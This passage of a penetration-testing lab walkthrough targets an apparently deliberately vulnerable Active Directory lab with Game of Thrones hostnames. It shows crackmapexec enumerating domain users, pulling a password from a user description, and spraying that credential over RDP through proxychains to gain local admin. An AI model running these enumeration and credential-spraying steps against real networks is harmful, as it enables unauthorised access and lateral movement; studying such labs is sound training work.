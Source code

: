 ```bash
SMB         192.168.56.11   445    WINTERFELL       [*] Trying with SAMRPC protocol
SMB         192.168.56.22   445    CASTELBLACK      [-] north.sevenkingdoms.local\: STATUS_ACCESS_DENIED 
SMB         192.168.56.22   445    CASTELBLACK      [-] Error enumerating domain users using dc ip 192.168.56.22: SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
SMB         192.168.56.22   445    CASTELBLACK      [*] Trying with SAMRPC protocol
SMB         192.168.56.10   445    KINGSLANDING     [+] sevenkingdoms.local\: 
SMB         192.168.56.10   445    KINGSLANDING     [-] Error enumerating domain users using dc ip 192.168.56.10: NTLM needs domain\username and a password
SMB         192.168.56.10   445    KINGSLANDING     [*] Trying with SAMRPC protocol
SMB         192.168.56.11   445    WINTERFELL       [+] Enumerated domain user(s)
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\Guest                          Built-in account for guest access to the computer/domain
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\arya.stark                     Arya Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\sansa.stark                    Sansa Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\brandon.stark                  Brandon Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\rickon.stark                   Rickon Stark
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\hodor                          Brainless Giant
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\jon.snow                       Jon Snow
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\samwell.tarly                  Samwell Tarly (Password : Heartsbane)
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\jeor.mormont                   Jeor Mormont
SMB         192.168.56.11   445    WINTERFELL       north.sevenkingdoms.local\sql_svc                        sql service
```

Awesome, we can get all users and there is also a password stored in the user attributes.

samwell.tarly:Heartsbane

Lets see where these can be used, I want an RDP Session as its easier to work with. Use crackmapexec with rdp and the creds.

```bash
└─$ proxychains -q crackmapexec rdp hosts.txt -u samwell.tarly -p Heartsbane
RDP         192.168.56.22   3389   CASTELBLACK      [*] Windows 10 or Windows Server 2016 Build 17763 (name:CASTELBLACK) (domain:north.sevenkingdoms.local) (nla:True)
RDP         192.168.56.23   3389   BRAAVOS          [*] Windows 10 or Windows Server 2016 Build 14393 (name:BRAAVOS) (domain:essos.local) (nla:True)
RDP         192.168.56.11   3389   WINTERFELL       [*] Windows 10 or Windows Server 2016 Build 17763 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (nla:True)
RDP         192.168.56.12   3389   MEEREEN          [*] Windows 10 or Windows Server 2016 Build 14393 (name:MEEREEN) (domain:essos.local) (nla:True)
RDP         192.168.56.10   3389   KINGSLANDING     [*] Windows 10 or Windows Server 2016 Build 17763 (name:KINGSLANDING) (domain:sevenkingdoms.local) (nla:True)
RDP         192.168.56.22   3389   CASTELBLACK      [+] north.sevenkingdoms.local\samwell.tarly:Heartsbane (Pwn3d!)
RDP         192.168.56.23   3389   BRAAVOS          [-] essos.local\samwell.tarly:Heartsbane 
RDP         192.168.56.11   3389   WINTERFELL       [+] north.sevenkingdoms.local\samwell.tarly:Heartsbane 
RDP         192.168.56.12   3389   MEEREEN          [-] essos.local\samwell.tarly:Heartsbane (STATUS_LOGON_FAILURE)
RDP         192.168.56.10   3389   KINGSLANDING     [-] sevenkingdoms.local\samwell.tarly:Heartsbane (STATUS_LOGON_FAILURE)
```
Cool, so we can RDP and samwell.tarly is also a local admin on .22 (Pwn3ed!)
